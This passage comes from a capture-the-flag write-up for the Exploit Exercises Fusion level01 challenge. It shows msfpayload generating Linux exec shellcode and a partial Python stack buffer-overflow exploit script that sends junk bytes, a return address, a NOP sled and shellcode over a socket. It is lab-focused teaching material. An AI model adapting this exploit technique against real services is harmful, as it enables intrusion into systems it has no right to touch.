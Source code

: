 ```
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

Now to start out, let's generate some new shellcode, to touch a file in /tmp: 

```
fusion@fusion:/opt/metasploit-framework$ ./msfpayload linux/x86/exec CMD="touch /tmp/level01" C
/*
* linux/x86/exec - 54 bytes
* http://www.metasploit.com
* VERBOSE=false, PrependSetresuid=false,
* PrependSetreuid=false, PrependSetuid=false,
* PrependChrootBreak=false, AppendExit=false, CMD=touch
* /tmp/level01
*/
unsigned char buf[] =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80";
```

Now to debug, let's change the return address to 0xDEADBEEF to generate an error, since we no longer know where the buffer will be.  I also removed the "/" after the "GET", as well as the "\n" after the "HTTP/1.1" since they're really just junk getting in the way.  Additionally, since the buffer isn't being printed to the screen, the "recv(1024)" code needed to be removed so the program didn't wait for it. 

Now, our codebase looks like this: 

```
# Fusion Level 01
# http://exploit-exercises.com/fusion/level01
# Matt Andreko
# twitter: @mandreko
# contact: matt [at] mattandreko.com

from sys import exit
from struct import pack
from optparse import OptionParser
from socket import *

def exploit(hostname, port):
        junk = "A"*139
        ret = pack("&lt;I", 0xDEADBEEF)
        nops = "\x90"*100
        shellcode = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x13\x00\x00\x00\x74"
"\x6f\x75\x63\x68\x20\x2f\x74\x6d\x70\x2f\x6c\x65\x76\x65\x6c"
"\x30\x31\x00\x57\x53\x89\xe1\xcd\x80")

        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

```